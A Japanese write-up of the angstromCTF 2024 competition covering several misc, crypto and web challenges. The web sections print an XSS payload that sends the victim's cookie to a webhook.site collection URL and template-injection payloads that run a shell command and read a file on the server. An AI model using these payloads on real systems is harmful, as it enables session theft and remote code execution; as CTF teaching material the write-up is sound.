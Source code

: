 # [angstromCTF 2024](https://2024.angstromctf.com/challenges)に参加しました

数ヶ月ぶりにちゃんとCTFをやろうと思っていたところちょうど評判のよい(?)CTFがあったので参加しました.   
楽しいCTFを開催してくれた運営人の皆様, ありがとうございました.  
Web問題に関してはたまたま一緒に作業していたwebフロントを書く後輩に投げて, ほとんど解いてもらいました. ありがとう.  
510pt, 226/831（母数は正の得点を獲得しているチーム数）.

## trip(Misc 485solves)

### Description
> What road was this this [photo](https://files.actf.co/fdea3784a76afd8110498bd596653c433e3f5206bc0fa87f28a5edbd0a622ceb/trip.jpeg) taken on?  
> For example, if the road was "Colesville Road" the flag would be actf{colesville}.

### Consideration
綺麗な風景写真が渡されるので, 写真を撮った場所を答える.  
google lensじゃ絶対引っかからないような写真なので, 画像検索は望み薄.  
次にangstromチームのSNSを覗きに行ったけど該当するものなし.  
そういえばと思って, exiftoolにかけてみたらGPS Positionという欄があって, 緯度と経度があったので無事に場所の特定ができた.
```
GPS Position                    : 37 deg 56' 23.60" N, 75 deg 26' 17.11" W
```
あとはgoogle mapで検索して出てきた道の名前を答える.

## aw man(Misc 290solves)

### Description
> [Man](https://files.actf.co/5b9ef628dbf56fedc1ad1861b0ccb96569cd6a97fe49d50cb8f099155adf66b3/mann.jpg)? Is that you?

### Consideration
exiftoolで何も出なかったので, [aperi solve](https://www.aperisolve.com/)に投げてみた.  
enc.txtていうテキストファイルが抽出できたので中身を見てみる.
```
5RRjnsi3Hb3yT3jWgFRcPWUg5gYXe81WPeX3vmX
```
ここから地獄で何でdecode（decrypt）すれば良いか検討がつかず時間を溶かす.  
結果的にbaseをロールしていって, base58でdecodeできた.

## do you wanna a build snowman(Misc 317solves)

### Description
> Anna: Do you wanna build a snowman? Elsa: Sure if you can open my snowman [picture](https://files.actf.co/67ad046a16c81593ac82fdc7975dd8713a9c364774b69e2a8a3632e639c7fc66/snowman.jpg)

### Consideration
jpeg形式の画像ファイルが渡されるけど, 開けない.  
headerとかが正しくないんだろうなという推測でbinaryをいじってみることに.  
ファイルの最初にあるべきスタートマーカと呼ばれるSOIがあるらしく, そこが正しくなかったので修正したら開けた. （`fdd8`->`ffd8`）

## PHIlosophy(Crypto 339solves)

### Description
> Clam decided to start studying philosophy, and what is the difference between plus one and minus one anyway...

### Consideration
ほとんどがRSA暗号と同じになっているが, phiの値だけ$ phi = (p-1)(q-1) $でなく$ phi = (p+1)(q+1) $となっている. これでは秘密鍵が正しく生成されずに復号が正しく行われない.  
ここで,  
$
phi = (p+1)(q+1)
    = pq + p + q + 1
    = n + p + q + 1
$  
phiとnは既知なのでp+qが求まる.  
正しいphi'は  
$
phi' = (p-1)(q-1)
     = pq - (p+q) +1
$  
で求まるので正しく秘密鍵が生成できて, 復号が完了する.

## layers(Crypto 240solves)

### Description
> nc challs.actf.co 31398

### Consideration
やっていることとしては  
$ enc = flag \oplus key_1 \oplus key_2 \oplus ... \oplus key_{1000} $  
で, 1000個の鍵は毎回同じ鍵になる.  
よって  
$
flag = enc \oplus key_1 \oplus key_2 \oplus ... \oplus key_{1000}\\
\ \ \ \ \ \ \ \ \ = flag \oplus key_1 \oplus key_1 \oplus key_2 \oplus key_2 \oplus ... \oplus key_{1000} \oplus key_{1000}\\
\ \ \ \ \ \ \ \ \ = flag
$  
encは16進数になるので2番で投げて, 返ってくるflagも16進数なので`bytes.fromhex(flag)`とかで直す.

## markdown(Web 282solves)

### Description
> My friend made an app for sharing their notes!  
> App: [https://markdown.web.actf.co/](https://markdown.web.actf.co/)  
> Send them a link: [https://admin-bot.actf.co/markdown](https://admin-bot.actf.co/markdown)  
> [index.js](https://files.actf.co/c9c1df7ad9c6c62b99454fbde63f1cce5bd69c1dadd87314de9053f4e601c16b/index.js)

### Consideration
リンクを共有する方のアプリケーションは送ったリンクを見に行くらしい ＆ markdownを生成する方のアプリケーションは サニタイズしない  
というとこまで後輩が進めてくれたのでそこからスタート.  
①tokenをリークさせて, ②レスポンスを自分が見れるサーバーに送るということをしないといけない.  
②に関しては前に[webhook](https://webhook.site/)というものを使っていた人がいたのを思い出してクリア.  
①は後輩がプロですぐに以下を考えてくれた.  
```
<img src="x" onerror="fetch('https://webhook.site/595b3f51-eaea-4381-988d-da5cb183770a', {method:'POST', body:document.cookie})" />
```
ほとんど後輩が解いてくれた. 感謝.

## winds(Web 259solves)

### Description
> Challenge: [https://winds.web.actf.co/](https://winds.web.actf.co/)

### Consideration
SSTIができるというところまで後輩が進めてくれたのでそこからスタート.  
config見ても, 環境変数見てもflagないし, flagに繋がる情報は見つからず.  
以下で, lsコマンドを実行する.  
```
{{ request.application.__globals__.__builtins__.__import__('os').popen('ls -lah').read() }}
```
flag.txtがあったので以下で中身を見る.  
```
{{ request.form.get.__globals__['__builtins__']['open']('./flag.txt').read() }}
```  
リクエストで送るtextは並べ替えられてしまうけど, seed値が0なのでローカルで上のリクエストになるような文字列を生成できる.  
